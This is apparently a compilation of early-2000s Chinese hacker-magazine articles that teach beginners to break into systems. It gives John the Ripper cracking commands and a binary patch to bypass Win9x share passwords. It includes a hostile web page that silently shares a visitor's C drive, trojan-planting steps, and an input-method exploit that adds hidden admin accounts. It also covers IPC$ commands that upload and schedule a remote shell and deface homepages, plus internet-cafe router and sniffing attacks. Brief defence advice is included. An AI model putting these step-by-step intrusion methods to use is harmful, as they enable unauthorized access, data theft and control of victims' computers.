网络上的用户常采用一个英语单词或自己的姓氏作为密码。黑客通过一些程序，自动地从电脑字典中取出一个单词，作为用户的密码输入给远端的主机，申请进入系统。若密码错误，就按序取出下一个单词，进行下一个尝试，并一直循环下去，直到找到正确的密码或字典的单词试完为止。由于这个破解过程中计算机程序自动完成，几个小时就可以把字典的所有单词都试一遍。这类程序的典型是 LetMeIn version 2.0。

若这种方法不能奏效，黑客就会仔细寻找目标的薄弱环节和漏洞，伺机夺取目标中存放密码的文件 shadow 或 passwd。因为现在的 Unix 操作系统中，用户的基本信息贮存在 passwd 文件中，而所有的密码则经过 DES 加密方法加密后专门存放在一个叫 shadow（影子）的文件中，并处于严密的保护之下。老版本的 Unix 没有 shadow 文件，它所有的密码都存放在 passwd 文件中。一旦夺取密码文件，黑客就会用专解 DES 加密法的程序来破解密码。

# 二、网络密码破解的可行性分析

让我们把 Unix 密码的可能值统计一下：

Unix 中可以作为密码的一共是 [0x00~0xff] 共 128 个字符，小于 0x20 的都算是控制符，不能输入为密码；0x7f 为转义符，不能输入。那么总共有 128-32-1=95 个字符可作为密码字符。

也就是说 10（数字）+33（标点符号）+26*2（大小写字母）=95 个，如果密码取任意 5 个字母 + 1 位数字或符号（按顺序）可能性是 52*52*52*52*52*43=16,348,773,000（163 亿种可能性）。但如果 5 个字母都是一个常用词，估算一下，假设常用词 5000 条，从 5000 个常用词中取一个词与任意一个字符组合成密码，即 5000*(2*2*2*2)（大小写）*43=6,880,000（688 万种可能性）。


> 实际情况下绝大多数人都只用小写字符，这样可能性还要小。

但这已经可以用微机进行穷举了，在 Pentium 200 上每秒可算 3、4 万次，像这样简单的密码要不了 3 分钟。如果有人用 P200 算上一周，将可进行 200 亿次攻击，所以 6 位密码是很不可靠的，至少要用 7 位。

可惜很多用户确实是这么设 passwd 的。以上只是粗略估算常见的一种情况，实际情况还要复杂，主要是根据用户取密码格式的变化而变化。那些 hacker 并不需要所有人的密码，他们得到几个用户密码就能获取系统的控制权，所以取密码过于简单是对系统安全的不负责。

# 三、惯用实例

解密破解器——John The Ripper 1.4 是由著名的黑客组织——UCF 出的，它支持 Unix、DOS、Windows，速度超快，可以说是目前同类中最杰出的作品。对于老式的 passwd 档（就是未设 shadow 的那种，任何人能看的都可以把 passwd 密文存下来），John 可以直接读取并用字典穷举法破。对于现在的 passwd+shadow 的方式，John 提供了 UNSHADOW 程序直接把两者合成出老式 passwd 文件。

John 的用法简介：

`john -p:passwd -w:wordlist`

Wordlist 是字典文件，Passwd 是你拿到的密码文件。

没有字典档时，在 John 的配置文件 john.ini 里，有密码长度、字符、数字、符号的设置，设好后就自动在库里生成密码。当然，你想破解也可以，但机器速度一定要快。

用暴力法破解密码时使用参数 `-i:all`

格式为 `john -i:all -p:passwd`

就可破解像 5e5t56e6 这样的密码了。

这样可以产生 A-----ZZZZZZZZ 的密码，不过时间……嘿嘿。

当破解到一半，因种种原因需要暂停时，破解可以按 Ctrl+C，下次破解不必从新来过，只要键入 `john -restore:restore` 即可接着进行。

JOHN 在纯 DOS 下要比在 Win95 下快，用 Unix 更快。

对于像 a2e4u7 的密码是很难破出的，但 JOHN 的 Incremental（渐进）方式的密码组合引入了一些字母的频率统计信息，即“高频先试”的原则，倒还有些启发意义。

在 john.ini 中 Incremental 的 B、M、E 各行意思如下：

B…Begin，M…Middle，E…End

如想要加一种方式，比如字母加数字，可以设成：

```ini
[Incremental:all]
CharCount = 36（字符的个数，这儿是 26 个字母 + 10 个数字）
MinLen = 8（passwd 的最小长度）
MaxLen = 8（passwd 的最大长度）
CharsetB = 1203984567smcbtdpajrhlqgkfwniejvyzuqx
CharsetM = 1203984567eaiomitsuchlmdgpkbvyyfzxjq
CharsetE = 1203984567erynsatldoghikmcwpfubzjxvq
```

把这一段加在 john.ini 里，执行时 incremental 参数选 all 就行了。

按 Ctrl+C 中止运行时，输出是这样：

`v: 18 c: 1295458688 t: 1:14:28:08 9 c/s: 11036 w: oentll`  
`-- dbf1`  
`v: 0 c: 5424000 s: 862 c/s: 6292 w: fbymgf`

V 是 Victory，是破解成功的个数（因为我运行一段后，破解了 2 个密码，显示了 V:2）；后来又破了几个，V 后面的数字也相应变化。

- C：Compare，是比较的次数。
- T：time，程序已运行了多长时间。
- 9：当前完成度，至 100 即全部完成。
- c/s：是每秒比较的次数，随机器性能的高低而变化。
- W：是当前正在试的一个 Word，这个 Word 可能位于你的字典中（如果你用字典的话）或是 John 产生的。根据 W 所报告的数字可以估计破到了什么地方了。

运行需要的字典可以在 Internet 上下载别人已做好的，如：

- ftp.cads.com.tw 往 /pub/security 下的 DICT.ZIP
- ftp.uni-koeln.de/pub/dictionaries/
- ftp.ox.ac.uk/pub/wordlists

也可以自己做，用 txt2dict 或 pass2dic 等专用工具可自动把英文文件转换成字典。

# 四、防范密码被破解方法

防范密码被破解的方法很简单，只要使自己的密码不在英语字典中，且不可能被别人猜测出就可以了。一个好的密码应当至少有 7 个字符长，不要用个人信息（如生日、名字等），密码中要有一些非字母（如数字、标点符号、控制字符等），还要好记一些，不能写在纸上或计算机中的文件中。选择密码的一种好方法是将两个不相关的词用一个数字或控制字符相连，并截断为 8 个字符。例如：我的密码是 mc6.qo97。

- 不要将密码写下来。
- 不要将密码存于电脑文件中。
- 不要选取显而易见的信息作密码。
- 不要让别人知道。
- 不要在不同系统上使用同一密码。
- 为防止眼明手快的人窃取密码，在输入密码时应确认无人在身边。
- 定期改变密码，至少 6 个月要改变一次。

最后这点是十分重要的，永远不要对自己的密码过于自信，也许就在无意当中泄露了密码。

定期地改变密码，会使自己遭受黑客攻击的风险降低到了一定限度之内。一旦发现自己的密码不能进入计算机系统，应立即向系统管理员报告，由管理员来检查原因。

系统管理员也应定期运行这些破译密码的工具，来尝试破译 shadow 文件，若有用户的密码被破译出来，说明这些用户的密码取得过于简单或有规律可循，应尽快地通知他们，及时更正密码，以防止黑客的入侵。

## 再谈 win9x 的共享入侵

小叮当


图 1

网上的攻击方法层出不穷，但对于那些想当黑客的初学者而言，利用 NETBIOS 入侵是首选的入侵方式。可以说网上有关 NETBIOS 的文章多如牛毛，可是针对初学者的实用性强的文章却不太多，大多数此类文章对网络设置都是一带而过，使许多初学者不知所云，以至很难成功地入侵。

## 入侵前的准备

一台用 Modem 上网的家庭电脑（保证自己有充分的支配权进行研究），操作系统最好是使用 Win98，再加一个可以显示 IP 的 QQ，还要有一个搜索网络共享“肉鸡”的好软件，当然还要使用“网络刺客 II”。大家可在光盘“杂志相关”栏目里面找到。

## 漫谈入侵的流程

### 第一步、检查一遍自己的网络设置是否符合入侵要求

有相当多的初学者不能成功入侵共享机器就是因为没有正确设置网络环境。因为 Win98 默认安装时并没有安装“文件与共享服务”，所以不能进行共享访问。请先检查爱机有没有“网络邻居”，如果没有就依次进入“控制面板”→“网络”，在“主网络登录框”中选择“Microsoft 网络用户”为主网络登录方式，然后点击“文件及打印共享”这个按钮，勾选上“允许其它用户访问我的文件”复选框，最后点击确定后按提示放入 Win98 安装光盘进行补装。重启后你会发现你的桌面上多了个“网络邻居”。接下来我们再依次点击“我的电脑”→“拨号网络”的“服务类型”标签，选中“登录网络”这一项并选上“NetBEUI”协议（因为“登录网络”很影响拨号速度，大部分人都早把它取消了，这也是最易被忽略的共享设置）。经过这样的设置，我们就可以远程访问共享计算机了。

注：设置共享不需要网卡。

### 第二步、搜索 Internet 上的共享机器

这时就要用到“网络刺客 II”了，推荐它的原因是它有着非常强大的搜索互联网上的共享主机的功能，并且容易上手。我们首先要找一些有效的 IP 地址作为搜索条件，现在我们打开能查看 IP 的“完美版 QQ”。在你的 QQ 好友里随便选个 IP 地址，然后选择“主机资源”→“搜索共享主机”，输入 IP 的搜索范围。比如你的某好友的 IP 地址为 888.888.888.1（乱写的），这样你大概就知道了有效 IP 地址的范围。然后你只要在起始地址里输入 888.888.888.1，终止地址会自动填上 888.888.888.255（如图 1 所示），接着按“开始搜索”按钮，等上几分钟就会有一大把肉鸡的列表显示出来了。（当然，如果没有的话就再换个 IP 范围搜索）。

### 第三步、入侵方式

当搜索到肉鸡后，我们就准备开始入侵了。入侵方法有好几种，这里推荐两种最简单的入侵方式：

1．直接在“开始”→“运行”里输入“\\IP 地址”（这个 IP 地址就是肉鸡的 IP 地址；注意“\\”不能少！）并回车（如图 2）。


图 2

等待几十秒左右就会出现那台主机所有的共享目录，这时你就可以进行访问了。如果你顺利访问 C 盘，就再试试能不能在里面创建一个文件，如果能的话，恭喜你！这是一台完全共享 C 盘的主机，对于这样的主机，我们可以用木马来完全获得它的控制权，具体操作分两种情况，这方面在下一节中详细讲解。

2．利用“网络刺客 II”进入共享主机，方法也很简单。在列出的共享主机列表中选中一台主机的共享目录，右击它弹出一个菜单，点中“映射成网络硬盘”，过一会软件就会提示映射成功，接下来就快进入“我的电脑”看看战果吧！如图 3。


图 3

随着入侵次数的增多，你可能会经常遇到设有共享密码的目录，这种情况你就必须输对共享密码才能访问到共享目录。关于共享密码的破解方法，还是非常有必要了解的。由于本人水平有限，在这个方面只能提供两种方法。一种是通过软件进行暴力破解，这样的软件有很多，“网络刺客 II”本身就有很大的破解功能，具体操作请大家参考软件自身的帮助文件和本刊前期内容。

还有一种破解方式是通过共享目录密码的校验 BUG 进行闪电破解，只需要对 vredir.vxd 进行修改即可（它存在漏洞），下面是文件 VSERVER（以下代码分析是转贴那位 BUG 发现者所写的资料）。

VXD 中密码校验过程调用的有 BUG 的一段程序：

```text
03647        loc_0442:        ; xref 03635
03647 66 83 3A 20    cmp word ptr [edx], 20h ; THE SHARE PASSWORD
0364B 75 0D          jne short loc_0444    ; Jump if not equal
0364D B8 08460002    mov eax, 8460002h
03652 F9             stc                  ; Set carry flag
03653 C9             leave                ; Procedure exit
03654 C3             retn
03655        loc_0443:        ; xref 03640, 3645
03655 80 3F 00       cmp byte ptr [edi], 0
03658 74 26          je short loc_0446    ; Jump if equal
0365A        loc_0444:        ; xref 0364B
0365A 83 F9 18       cmp ecx, 18h         ; THIS HAS BUG FOUND BY YRG 1999.1.15
0365D 74 24          je short loc_0447    ; Jump if equal
0365F 83 F9 09       cmp ecx, 9
03662 77 1C          ja short loc_0446    ; Jump if above
03664 F5             cmc                  ; Complement carry
03665 83 D9 00       sbb ecx, 0
03668 51             push ecx
03669 53             push ebx
0366A 8B 1D 000137F4 mov ebx, dword ptr data_0461 ; (137F4=137FCn)
03670 8B F2          mov esi, edx
03672 2B C0          sub eax, eax
03674 4F             dec edi
03675        locloop_0445:        ; xref 0367C
03675 47             inc edi
03676 AC             lodsb                ; String [si] to al
03677 8A 04 18       mov al, [eax][ebx]
0367A 3A 07          cmp al, [edi]        ; BUG !!! I CAN SET ECX=1
0367C E1 F7          loopdz locloop_0445  ; Loop if zf=1, ecx>0
0367E 5B             pop ebx
0367F 59             pop ecx
03680        loc_0446:        ; xref 03658, 3662, 36A1
03680 C8             clc                  ; Clear carry flag
03681 C9             leave                ; Procedure exit
03682 C3             retn
03683        loc_0447:        ; xref 0365D
03683 81 EC 000000E4 sub esp, 0E4h
03689 8B C4          mov eax, esp
0368B 60             pushad               ; Save all regs
0368C 52             push edx             ; PARAMETER4
0368D 50             push eax             ; PARAMETER3
0368E 8B 45 08       mov eax, dword ptr [ebp+PARAMETER_1]
03691 8B 40 24       mov eax, dword ptr [eax+24h]
03694 50             push eax             ; PARAMETER2
03695 57             push edi             ; PARAMETER1
03696 E8 000036A1    call sub_0054       ; (06D3C)
0369B 83 C4 10       add esp, 10h
0369E 85 C0          test eax, eax
036A0 61             popad               ; Restore all regs
036A1 EB DD          jmp short loc_0446
```

3647 是判断客户端密码是不是输入没密码，这时密码项内容是 0x20，空格。不是就转 LOC-0444。

365A 判断客户端通过网络通信发送过来的加密后密码长度是否 0x18 吗？一般都是。再转 LOC-0447 去把共享目录密码加密与网络通信过来的密码作比较，通过“TEST EAX，EAX”设置 ZF 标记判断密码对不对。如果密码长度不是 0x18，可能是别的什么方式的密码比较，这儿密码是明确没有加密。再判断密码长度是不是大于 9，共享密码长度是 1-8 个字母数字等。

下面就是比较密码，后面的循环是以 ECX 密码长度和 ZF 标记为结束条件。显然这儿应该有 BUG，这个密码长度 ECX 应该是本身密码的长度，而这儿密码长度是网络通信发送过来的数据。所以我发过来的数据是 1，就只比较了一个密码的最前面字节。如果这一字节对，就表明 ZF=0，因 ECX=0 退出，结果是校验密码成功。

好了，那就找客户端改密码时代码，下面是 VREDIR.VXD 的这段相关代码。

```text
15FC8 8B 4D EC       mov ecx, dword ptr [ebp-14h]
15FCB 8B 55 F4       mov edx, dword ptr [ebp-0Ch]
15FCE 66 C7 41 07 0018 mov word ptr [ecx+7], 18h ; PASSWORDLONG
15FD4 83 C1 07       add ecx, 7
15FD7 83 C2 35       add edx, 35h
15FDA 8B 45 F8       mov eax, dword ptr [ebp-8]
15FDD 83 C0 6C       add eax, 6Ch
15FE0 89 4D F0       mov dword ptr [ebp-10h], ecx
15FE3 8B 4D EC       mov ecx, dword ptr [ebp-14h]
15FE6 83 C1 0B       add ecx, 0Bh
15FE9 51             push ecx            ; LOCKED PASSWORD SET HERE
15FEA 52             push edx            ; PASSWORD POINTER
15FEB 50             push eax
15FEC E8 FFFF0DCC    call sub_0067       ; LOCK THE PASSWORD ; (06EB6)
15FF1 83 C4 0C       add esp, 0Ch
15FF4 EB 71          jmp short loc_1765
```

15FCE 的 18H 就是前面的比较的 18H，这儿可以改成 1。CALL SUB-0067 是加密输入的密码的过程调用。15FEA 的 EDX 是指向输入的密码的指针。所以 15FE9 可以改成 MOV 就可以。

```text
AL,[EDX]
MOV [ECX], AL
JMP 15FF4
```

这样进入有密码的共享目录就可以用字母 A-Z、数字 0-9 等测试，就会很快地进入共享目录。当然最好那儿自动这么变化成 AL，免得每次还要输入，这样可以加快速度。

改好后，复制到 windows\system 下覆盖掉原文件再重启一下就可以进行破解了。以上两种破解共享密码的方式，木人极力推荐后者，理论上它可以在几分钟内破解开任何难度的密码。但是暴力破解并不是一点也没用，在万不得已的时候还是要用暴力破解的方式碰碰运气。至于为什么会仍然要用到远程暴力破解，你再看看下一节就明白了。小图 4。（注：新手可以到各大黑客网站去找一个编译好的现成的 VREDIR.VXD 程序）

## 第四步，共享计算机的利用

在这里我们只讲完全共享 C 盘的情况，这种情况是很理想的，因为我们可以利用植入木马的方式来获得共享电脑的完全控制权。但问题在于怎么远程运行木马。我们分两种情况说。

- 1. 对方电脑开启了计划任务程序。我们先在自己的电脑上做好木马（推荐使用最新版“广州女生”木马），然后在自己的计划任务中添加这个运行木马的任务（不要让自己运行），再到自己电脑的 `c:\windows\Tasks`，把那两个计划任务的文件拷到远程计算机的相应目录，再想法获知对方电脑的时间，最后根据这个时间重设远程计算机的计划程序使木马的计划任务过几分钟就运行（可别忘了给远程计算机一个木马）。
- 2. 拷给远程计算机一个木马，在 `c:\windows\win.ini` 中配置，在 `[windows]` 段中的 `load=` 后写上你放置的木马的路径。这样只要对方重启过计算机后我们就可以进行控制了。

## 第五步，高级利用法

这个方法给有一定电脑知识基础的人，把以下内容存为 index.html。

```html
<script language=JavaScript>
document.write("<APPLET HEIGHT=0 WIDTH=0 code=com.ms.activeX.ActiveXComponent></APPLET>")
function f(){
a1=document.applets[0]
a1.setCLSID("{F935DC22-1CF0-11D0-ADB9-00C04FD58A0B}")
a1.createInstance()
Shl = a1.GetObject()
Shl.RegWrite("HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Network\\LanMan\\x$\\Flags", 170, "REG_DWORD")
Shl.RegWrite("HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Network\\LanMan\\x$\\Type", 0, "REG_DWORD")
Shl.RegWrite("HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Network\\LanMan\\x$\\Remark", "")
Shl.RegWrite("HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Network\\LanMan\\x$\\Path", "c:\\")
}
function init(){
setTimeout("f()",1000)
}
init()
</script>
```

这个网页实现了什么呢？如果你会些注册表和网页等知识，就能看懂了。只要网页访问者访问了这个页面，他的 C 盘就会完全地共享，并且还不会显示任何共享标志，这是因为在注册表上利用了一个鲜为人知的共享后门。

使用方法：引诱目标访问你的网页，等对方下次开机上线，你在运行栏输入 `\\网页访问者ip\\x$`，回车，一会儿就可以打开对方的 C 盘，你可以添加删除任何程序，再结合我上面讲的实例，植入一个木马再实现更多的远程操作功能，比如查看对方桌面图像等等。

## 第六步，共享入侵的防范措施

最简单的方法就是取消所有共享，但如果你非要共享的话（尽量设为只读共享），那就要加上一个足够复杂的共享密码（混合的 8 位以上的密码），然后再下载一个共享目录的密码校验 Bug 补丁。虽然入侵者仍然可以试图通过暴力破解来解密，但是在实际中，只要你的密码够复杂，对手肯定没戏。

最后要说明的是不要中了别人的木马，特别是那些小巧的共享木马或者是更高级的木马，比如上面那个网页共享木马，是不是很不为人察觉呢？其实类似的还有一些。所以我们上网还要有一个强大的防火墙和良好的杀毒软件，国内的天网防火墙和金山毒霸就是不错的好搭档。

有关共享漏洞的问题还不仅仅于此，其他系统依然存在着非常严重的共享漏洞。比如应用最广泛的 WinNT/2K 操作系统，它们存在一个 IPC$ 管道，任何用户都可以通过输入验证码口令远程进入系统，从而控制所有资源。

有些人认为有口令设定就不会这么危险。其实 WinNT/2K 中还存在一个可怕的 IPC$ 空连接，黑客可以通过它获得目标 WinNT/2K 上的所有账号清单，从而进行账号破解。由于这不是本文重点，有关共享漏洞的内容就讲到此为止吧！

# 3389端口入侵详细分析

也许大家知道 3389 端口漏洞，但是不知道怎么通过这个端口去入侵一台计算机。本文介绍一些最常见的入侵手段，以图解的方式，详细的步骤进行分析 3389 端口的入侵过程，希望能有助于菜鸟走进黑客的大门。

首先热烈推荐你安装上 Win2000 以上的操作系统，因为大部分黑客工具都是用 Win2000 开发的；其次你必须有一个顺手的扫描工具，这里使用的以流光 IV 和 Superscan 为主。所有软件你都可以在本刊的光盘里找到。先说关于 Win 系列服务器的入侵，以下介绍的几种方法你如果能全部结合起来，那么你进一般的服务器就没问题了。

## 一、输入法漏洞入侵

为什么从这里先讲起呢？因为我觉得从这里入门最快，可以激发起你对黑客的兴趣，你也可能在这里完成你的第一次入侵行动。首先运行 Superscan，在它的主界面“IP 起始”框里填入一段你想扫描的 IP 地址，比如对一个 C 类的地址进行扫描，就可以找到很多 3389 端口开放的主机。

下一步打开终端服务客户端程序，填入你扫描到的 IP 地址，单击连接。

连接成功后会跳转到下面的窗口，并且需要用用户名和密码才能登录，咱们马上来创建一个。按键盘的 Ctrl+Shift 切换到中文输入法，在输入法工具条上点鼠标右键，然后选择输入法入门。如果没有，那就是管理员已经打上补丁了，再换一台试试，多找找一定能找到一台有漏洞的服务器。

点击后进入输入法帮助，在空白处点鼠标右键，选择跳至链接。在“跳至该 URL”里输入 `c:\winnt\system32`，点击“确定”按钮，弹出（如图四）窗口。

在窗口的对话框右边点击“显示文件”，弹出（如图五）对话框。

在目录里随便找到一个可执行的文件，点击鼠标右键，选择创建快捷方式，如图六所示。

## 黑客X档案2002-2003年合订本

# 一个人的战争

图六

找到刚才创建的快捷方式，点鼠标右键选择属性，将目标改为：`c:\winnt\system32\net.exe user hacker 1234 /add`。

这个 DOS 命令熟悉吗？意思是创建一个名为 `hacker`、密码为 1234 的新用户，然后点击“确定”。双击刚才改好的快捷方式，执行以后可能看不到什么结果，其实已经运行完毕了，如图七所示。

图七

这台服务器从此就有了你的用户名。这时再对快捷方式点右键，选择属性，将目标改为 `c:\winnt\system32\net.exe localgroup administrators hacker /add`，然后确定，再双击运行它。做这一步的意思是将你刚才创建的那个 `hacker` 用户加到 `administrators` 组中，`administrators` 组是服务器管理小组，有了它还有什么做不了呢！

最后回到登录页面，用刚才创建的用户名和密码登录，这台服务器就多了一个主人。强烈建议你不要破坏它，也不要更改里面的任何设置，因为我觉得现在这种漏洞还是很多，有了这台肉机你可以用它做很多事。比如：下载文件、上传文件、扫描等等。如果有心的话你可以帮这台服务器把此漏洞堵住，具体方法是在搜索中查找输入法的帮助文件，可以利用的有：`PINTLGNT.CHM`（微软拼音输入法）、`WINSP.CHM`（双拼输入法帮助文件）、`WINZM.CHM`（郑码输入法帮助文件）、`WINPY.CHM`（全拼输入法帮助文件）、`WINIME.CHM`（输入法操作指南），将以上文件全部删除。要想长期使用这台肉机，你可以修改注册表：`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Winnt\CurrentVersion\Winlogon`，找到 `DontDisplayLastUserName` 键，将键值设置为 1，这样管理员就不太容易发现你了。

## 二、IPC通道

IPC 是什么？IPC 原先是 UNIX 的进程间通信的意思。在这里我们所说的是 Win 下的 IPC，它主要是共享命名管道的资源，在远程管理计算机和查看计算机的共享资源时都可以用得到，也就是说你可以利用它知道这台服务器上所有的用户。

首先打开流光 IV（怎么？不能使用，要安装 Win2000 啊！Win98 是游戏平台，当然不能用了。）

点击“探测”，选择里面的“扫描 POP3/FTP/NT/SQL 主机”，在扫描范围填入起始 IP 地址和结束 IP 地址，然后在“扫描主机类型”里选择“NT/98”，将底下的选项都打上勾，然后点“确定”开始扫描，如图八所示。

图八

确定目标以后，你可以在流光的左方找到 IPC$ 主机，点击鼠标右键并选择其中的“探测/探测 IPC$ 用户列表”，然后选择“仅探测 Administrators 组”的用户，这样可以节省时间。接下来会弹出询问框“是否在成功获得用户名后立即开始简单字典模式探测？”，选择“是”。探测出用户名后，会自动调用字典文件来解密，（里面的字典过于简单，你可以自己制作更好的字典），如图九所示。

图九

当然你在扫描单 IP 的时候也很可能直接扫出用户名和密码，这里我们探测出 `administrators` 组中的 `lixiao` 的用户名，密码为空，见图十最下面的框口内。

这时候我们运行 Win2000 下的 cmd.exe，输入命令：`net use \\IP地址\ipc$ "密码" /user:"用户名"`，成功连接后显示命令成功完成，如图十中所示。

找到他的网页所在目录，如：`c:\inetpub\wwwroot`，使用命令：

图十

意思是把本地 C 盘的 srv.exe 上传到服务器的 system32 目录下。我们再利用 Win2000 的时间计划来启动这个服务器端，首先要知道对方服务器的所在时间，使用命令：

```text
net time \\IP地址（如图十二所示）
```

图十二

图十一

得到系统时间后，我们再用命令：

```text
at \\IP地址 启动 telnet 的时间 srv.exe（如图十三）
```

图十三

```text
copy c:\index.htm \\IP地址\c$\inetpub\wwwroot
```

这里的 `c:\index.htm` 指的是你做好的网页，上传替换掉原先的文件就可以改他的主页了。如果你想进一步登录到他的服务器，那么我们要做的是传一个 telnet 服务端上去，并将 telnet 服务打开。找到流光目录 tool 文件夹下的 `srv.exe`，将它复制到你的 C 盘，然后使用命令：`copy c:\srv.exe \\IP地址\admin$`。

成功的话会显示增加任务完成。再使用 `srv.exe` 打开默认端口 99，等到时间后，我们就可以用命令：`telnet IP地址 99` 远程登录到服务器上，成功登录后，对方服务器的 `c:\winnt\system32\` 目录就在你眼前了。

# 强大的GUI控制工具——DameWare NT Utilities

话我建议你就不要往下看了，开玩笑的了！安装后会生成 DameWare NT Utilities 程序组，如图 1 所示。

DameWare NT Utilities 是一套功能强大的控制工具，试用后觉得是不错的好帮手，有了它网络用户不用为了搜寻测试花两台机器中跑来跑去了。如果你想用它来入侵远程主机的话，那就更没问题了，你只要拥有一个远程主机的有权限的账号。有人会问什么叫主机的权限？就是一台主机管理员权限，说白点就是 admin 账号啊！这回懂了吧。那么怎么得到呢？用扫描器啊！最好用流光，它毕竟是中国最好的黑客工具，X-WAY 也挺不错的哦！它能使你在远程 GUI 下登录交互控制主机，还有其他的很多强大的功能，就不一一列举。这篇文章主要介绍如何使用它的 GUI 远程控制功能，让没有用过的有个简单的认识。

下载地址：http://www.hktk.com/soft/soft_remote/damewarentutilities.html。下载后双击 EXE 文件安装。

图1

在这里，我们主要学习“mini remote control”，也就是第二个图标，双击打开，如图 2。我已经连接到远程的截图。

图 2

好！可以开始了。点击“连接按钮1”，弹出连接对话框，如图 3 所示：

图 3

输入对方的 IP 地址和已知的用户名、密码，就是你扫到的管理员账号，连接默认端口是 6129，最好不动。然后再点击“设置”（最下的那个按钮），弹出对话框，如图 4 所示：

图 4

这个图是远程控制设置项，建议把“view only”勾上。连接上后如果没人的话，再把“控制按钮6”点击弹起就可控制了；“压缩”选项我选择“最高”。在另一个选项“display options”里建议把“gray scale”（黑白）勾上，速度还是快点好，有没有彩色我觉得无所谓。如果你那边的网速较快的话，你选“真彩”吧！别的像什么“数据加密”、“连接断开时间”、“鼠标状态”、“扫描线数”等都可以默认值。应用确定后，又返回到图 3 界面，按 OK，程序会自动连接远程主机。它会发现远程没有安装连接服务，弹出对话框，如图 5 所示：

图 5

程序问是否安装？当然要装啊！不装就连接不上了。但不要现在点 OK，要先设置。点击“install options”按钮。好了，现在点 OK，程序会自动安装远程服务。重新启动，并连接上，你就可以看到远程桌面了。

## 注意事项：

连接以后先不要做什么，显示对方鼠标（按钮9），观察一下，看对方在干什么。如果没人使用，你就可以弹起“按钮6”，开始控制，这时你的一切操作都会在对方屏幕上显示出来，对方也会看到鼠标自己移动、打开窗口、关掉窗口，甚至打开记事本，在上面写道“我不是黑客，不要紧张什么的。呵呵！不知道的会不会吓坏啊！”（这是因为 dwrcc 的控制方式和 3389 终端服务的不一样，dwrcc 是基于屏幕截图来控制和显示的）。

显示速度还是不错的，用上面的设置的话，56K 完全可以忍受。如果你控制时，对方也要控制，鼠标就会不听话，你就可以按下“按钮5”，他就傻了。你还可以在控制中点击“按钮12”设置对方服务，可以在下拉菜单“file”里选“remove service”来卸载远程服务。

本来还想写写“DameWare NT Utilities”的使用，但是要把它写清楚太费时间了，因为它的功能太强大了！

只要你读完本文，我保证你可以登入任何一台只要有 admin 权限的机子！不信你试试！

# 网吧攻击的几种方法

在网吧进行攻击，个人觉得好处挺多。因为网吧的主机（或路由）的设置一般都不会很安全，只是默认安装了操作系统（或简单设置而已）后做一个简单的共享和 DHCP，然后主机一般不怎么动刀了。这样就可以给我们很多练兵的机会：在网吧攻击，速度比较快（怎么说也是局域网内的），隐藏性较强（别让网吧服务员看到就行）等。

根据各地网吧具体条件不一样，可能攻击准备也会有少许不同。比如说哈尔滨地区，网吧的机器一般都有还原卡，所以一般不安装木马软件；有的网吧用 IC 卡计费，这样的机器在网吧计费软件的客户端都不装。个人觉得安装 IC 卡进行计费的网吧攻击条件是最优越的，在软件的使用上没有任何限制。如果安装了网吧管理软件，如美萍、网吧管理专家等，准备工作就是先突破网吧管理软件，使之我们能下载软件、安装软件、执行命令，这样就最好不过了。关于网吧管理软件的突破，以前的文章有很多介绍，大家自己参考一下。

因为网吧代理通过不同的手段，我们以一些常见的代理方式为例，简单地介绍一下对网吧的代理服务器（或路由）攻击的方式。

## 一、使用路由器进行代理

就以本人在网吧攻击路由为例。有一次和同学一起去网吧通宵玩游戏，时间也挺晚的，网吧的服务员大都去睡觉了。

闲来无事，想看看网吧主机的防护怎么样，就在“黑白网络”下载了一个 SSS 扫描软件。SSS 扫描软件是俄罗斯出产的一个扫描软件，功能十分强大。首先看看网吧的 IP 是怎么分配的，运行“WINIPCFG”（如图一所示）或在 DOS 窗口下运行“IPCONFIG -ALL | MORE”（如图二所示）。我们可以从中得到一些信息，IP 是 192.168.0.64，网关是 192.168.0.94，那么这个网关的地址就是网吧内部访问外部网络的出口，也就是把 192.168.0.94 作为网吧代理。

PING 一下网关，TTL 值为 255，难道是 UNIX？用 SSS 扫描一下，只开了 23 端口。当时晕倒，怎么只开了 23 端口，这是什么代理服务器？后来仔细想一下，一定是路由了。运行 `TELNET 192.168.0.94`，登录上了。显示的路由型号是 HIM-35，感觉一般网吧舍不得在路由安全问题上投入，所以按路由的默认密码试了一下。

打开网页 GOOGLE 搜索相应的路由型号为 HIM-35，找到厂商的主页，查到此路由型号的说明书，看到默认的密码是 ADMIN。TELNET 上后一试，进去了，果然路由没有设防，用默认的密码就可以轻松搞定了。

## 二、使用 WIN98 或 WINDOWS 2000 PROFESSIONAL 进行代理

我们都知道，WIN98 和 WIN 2K PRO 提供很少的服务，这就给攻击带来很大的难度。如果系统上又安装了防火墙软件，真是一件很棘手的事情。当使用 WIN 2K PRO 时，最好先猜一下它的密码，看看有没有弱口令，比如说空、网吧的名字或拼音、网吧的电话等。还有就是利用代理服务器开的共享，上传木马，然后骗取管理员执行。最好使用反弹型木马，这样才能对付某些防火墙。

## 三、使用 WINDOWS 2000 SERVER 或 WINDOWS 2000 ADVANCE SERVER 做代理

WIN 2K SER 和 WIN 2K ADV SER 的默认安装都提供了不少的服务，比如说 IIS 等。这样我们的攻击的方法就多了很多，弱口令、IIS 漏洞和系统漏洞等。默认安装的 WIN2K SER 和 WIN2K ADV 的系统安全性是非常脆弱的，IDA、IDQ、UNICODE、PRINT 等等漏洞都可以轻松地拿到管理员的权限。只要下载相应的溢出程序，输入几行命令，管理员权限就可到手。具体的攻击方法我在这里就不再叙述了。

## 四、在网吧安装 SNIFF 软件进行密码及信息的获取

在网吧安装 SNIFF 软件，真的可以得到好多的信息。HTTP、POP3/FTP 的口令都是明文传输的，边锋、聊天等网络软件的口令也是明文传输的，这样给攻击者带来极大的方便。如果网吧使用共享式网络，比如说使用 HUB，那么我们只要下载安装一个小小的 SNIFF 软件，就可以得到很多的信息。如果网吧使用交换式网络，即使用交换机，也没问题，下载 SNIFFER PRO，安装后重新启动绑定网卡，一样可以得到我们想要的东西。

